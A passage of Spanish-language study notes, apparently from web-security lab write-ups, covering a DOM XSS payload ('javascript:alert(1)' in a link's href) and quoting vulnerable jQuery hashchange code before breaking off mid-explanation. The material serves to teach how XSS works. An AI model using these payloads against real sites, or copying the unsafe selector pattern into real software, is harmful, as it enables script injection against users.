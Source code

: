 > La etiqueta final quedaría tal que así:

```html
<a id="backLink" href="javascript:alert(1)">Back</a>
```

- Injection

```javascript
javascript:alert(1)
```

## XSS DOM con jQuery y evento 'hashchange' || DOM XSS in jQuery selector sink using a hashchange event

![](/img2/Pasted%20image%2020250721232427.png)

```javascript
$(window).on('hashchange', function(){
  var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

> Vamos ha desglosar parte por parte el script:

```javascript
window.location.hash.slice(1)
```
